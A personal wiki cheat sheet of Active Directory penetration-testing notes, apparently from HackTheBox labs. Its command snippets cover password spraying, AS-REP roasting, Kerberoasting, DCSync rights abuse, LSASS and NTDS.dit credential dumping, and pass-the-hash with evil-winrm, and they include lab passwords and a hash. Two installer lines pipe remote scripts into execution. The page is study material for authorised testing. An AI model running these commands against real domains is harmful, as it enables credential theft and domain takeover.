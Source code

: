 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Initial Enumeration
[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)
  - Checks badpwdcount attribute only in the domain policy

[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

Other resources
  - https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/

[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

Old tool however useful if Bloodhound.py isn't working as intended.

[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/

[BloodHound CE](https://github.com/SpecterOps/BloodHound)

**Installation via Docker:** [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Active Directory Exploitation
[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)

[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)

**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)

[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.

```
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
[NetExec](https://github.com/Pennyw0rth/NetExec)
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

**WinRM**
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

[Impacket]()
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
